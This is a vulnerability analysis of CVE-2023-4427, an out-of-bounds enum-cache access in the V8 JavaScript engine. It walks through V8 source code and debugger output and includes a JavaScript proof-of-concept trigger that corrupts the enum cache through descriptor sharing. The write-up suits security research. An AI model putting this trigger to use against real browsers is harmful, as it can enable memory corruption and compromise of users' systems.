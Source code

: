 # CVE-2023-4427 

## Description

Out of bounds access in enum cache leads to fake object primitive.

## Analysis

When running code like this:

```javascript
obj1 = {}
obj2 = {}
// [1]
obj2.a = 1
```

v8 will create a new map for `obj2` and add a new transition pointer
```c
[#0] 0x7ffff6933834 → v8::internal::MapUpdater::ConstructNewMap()()
[#1] 0x7ffff6931c3b → v8::internal::MapUpdater::ReconfigureToDataField(v8::internal::InternalIndex, v8::internal::PropertyAttributes, v8::internal::PropertyConstness, v8::internal::Representation, v8::internal::Handle<v8::internal::FieldType>)()
[#2] 0x7ffff694428b → v8::internal::(anonymous namespace)::UpdateDescriptorForValue(v8::internal::Isolate*, v8::internal::Handle<v8::internal::Map>, v8::internal::InternalIndex, v8::internal::PropertyConstness, v8::internal::Handle<v8::internal::Object>)()
[#3] 0x7ffff69440c1 → v8::internal::Map::PrepareForDataProperty(v8::internal::Isolate*, v8::internal::Handle<v8::internal::Map>, v8::internal::InternalIndex, v8::internal::PropertyConstness, v8::internal::Handle<v8::internal::Object>)()
[#4] 0x7ffff69244bc → v8::internal::LookupIterator::PrepareForDataProperty(v8::internal::Handle<v8::internal::Object>)()
[#5] 0x7ffff69b2fcf → v8::internal::Object::SetDataProperty(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>)()
[#6] 0x7ffff69b189c → v8::internal::Object::SetPropertyInternal(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>, v8::Maybe<v8::internal::ShouldThrow>, v8::internal::StoreOrigin, bool*)()
[#7] 0x7ffff69b1548 → v8::internal::Object::SetProperty(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>, v8::internal::StoreOrigin, v8::Maybe<v8::internal::ShouldThrow>)()
[#8] 0x7ffff64c5fc5 → v8::internal::StoreIC::Store(v8::internal::Handle<v8::internal::Object>, v8::internal::Handle<v8::internal::Name>, v8::internal::Handle<v8::internal::Object>, v8::internal::StoreOrigin)()
[#9] 0x7ffff64d19ee → v8::internal::__RT_impl_Runtime_StoreIC_Miss(v8::internal::Arguments<(v8::internal::ArgumentsType)0>, v8::internal::Isolate*)()
```

This will also update the descriptor for all affected maps on the transition chain
```cpp
// Installs |new_descriptors| over the current instance_descriptors to ensure
// proper sharing of descriptor arrays.
void Map::ReplaceDescriptors(Isolate* isolate,
                             Tagged<DescriptorArray> new_descriptors) {
  PtrComprCageBase cage_base(isolate);
  // Don't overwrite the empty descriptor array or initial map's descriptors.
  if (NumberOfOwnDescriptors() == 0 ||
      IsUndefined(GetBackPointer(cage_base), isolate)) {
    return;
  }

  Tagged<DescriptorArray> to_replace = instance_descriptors(cage_base);
  // Replace descriptors by new_descriptors in all maps that share it. The old
  // descriptors will not be trimmed in the mark-compactor, we need to mark
  // all its elements.
  Tagged<Map> current = *this;
#ifndef V8_DISABLE_WRITE_BARRIERS
  WriteBarrier::ForDescriptorArray(to_replace,
                                   to_replace->number_of_descriptors());
#endif
  while (current->instance_descriptors(cage_base) == to_replace) {
    Tagged<Map> next;
    if (!current->TryGetBackPointer(cage_base, &next)) {
      break;  // Stop overwriting at initial map.
    }
    current->SetEnumLength(kInvalidEnumCacheSentinel);
    current->UpdateDescriptors(isolate, new_descriptors,
                               current->NumberOfOwnDescriptors());
    current = next;
  }
  set_owns_descriptors(false);
}
```

However, this process will not create a new enum cache, so the enum cache of the descriptor will remind uninitialized. Considering code like

```javascript
const object1 = {};
object1.a = 1;
const object2 = {};
object2.a = 16705;
object2.b = 3;
const object3 = {};
object3.a = 4;
object3.b = 5;
object3.c = 6;

for (let key in object2) { } // Trigger the enum cache creation [1]

function trigger(callback) {
    for (let key in object2) {
        callback(object2[key]);
    }
}

trigger((value) => {
    object3.a = 1.1;    // Change the type of object3.a, update the map of object3 [2]
});

for (let key in object1) { } // Trigger the enum cache creation [3]
```

In [1] the enum cache is created, and the map of `object2` is updated. In [2] the map of `object3` is updated. In [3] the enum cache is created again with only one key. This enum cache will be shared between all maps since they hold the same descriptor. Thus when iterating over `object2` with for-in loop again there will be an out of bounds access in the enum cache.

```
gef➤  call (void)_v8_internal_Print_Object(0xdd30015c735)
0xdd30015c735: [EnumCache] in OldSpace
 - map: 0x0dd3000001f1 <Map[12](ENUM_CACHE_TYPE)>
 - keys: 0x0dd30015c71d <FixedArray[1]>
 - indices: 0x0dd30015c729 <FixedArray[1]>
```

